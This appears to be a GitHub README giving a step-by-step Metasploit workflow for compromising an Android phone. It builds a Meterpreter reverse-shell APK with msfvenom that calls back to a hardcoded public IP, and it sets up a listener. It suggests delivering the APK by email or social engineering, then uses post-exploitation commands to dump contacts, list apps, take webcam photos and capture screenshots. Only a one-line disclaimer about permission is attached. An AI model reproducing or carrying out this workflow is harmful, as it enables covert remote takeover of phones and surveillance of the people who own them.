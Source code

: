 # Metasploit Exploitation Workflow

## Step 1: Download and Install Metasploit

   - Download Metasploit from the official website or repository.
   - Follow the installation instructions for your operating system.

## Step 2: Start Metasploit Framework

   - Open a terminal and start Metasploit:
     ```bash
     msfconsole
     ```

## Step 3: Generate Payload

   - Use `msfvenom` to create a payload. For example, create a reverse TCP Meterpreter payload:
     ```bash
     msfvenom -p android/meterpreter/reverse_tcp LHOST=52.66.204.1 LPORT=4444 -o hack_akhilesh.apk ANDROID_VERSION=10
     ```
     Replace `your_ip_address` and `your_port` with your public IP address and desired port.

## Step 4: Set Up a Listener

   - In Metasploit, set up a listener to catch the incoming connection:
     ```bash
     use exploit/multi/handler
     set PAYLOAD android/meterpreter/reverse_tcp
     set LHOST your_ip_address
     set LPORT your_port
     exploit
     ```

   - Ensure that the listener is running and waiting for the connection.

## Step 5: Download the Payload to Target Device

- Transfer the generated payload (`hack_akhilesh.apk`) to the target device. You can use various methods such as email, USB, or other social engineering techniques.

    Here I'll be using with http protocol

    1. Run a python server

       ```bash
       python3 -m http.server 4444
       ```
    2. Browse `http://52.66.204.1:4444/hack_akhilesh.apk` to download the file

    3. Install it.

## Step 6: Exploit the Target

Run exploit
   ```bash
   exploit -j
   ```

Check all active Sessions
   ```bash
   sessions
   ```

Target the specific session for example 3
   ```bash
   sessions -i 3
   ```

* Now you are inside the `meterpreter>` prompt

Get Help
   ```bash
   help
   ```
Get System Information
   ```bash
   sysinfo
   ```

Contacts
   ```bash
   dump_contacts
   ```

App Lists
   ```bash
   app_lists
   ```

Capture an image
   ```bash
   webcam_snap -i 1 -o /sdcard/captured_image.jpg
   ```

Capture Screenshots
   ```bash
   screenshots
   ```

And much more...

Happy Coding!

### Note: Always ensure you have explicit permission to perform these actions. Unauthorized access or activities can have severe legal consequences.
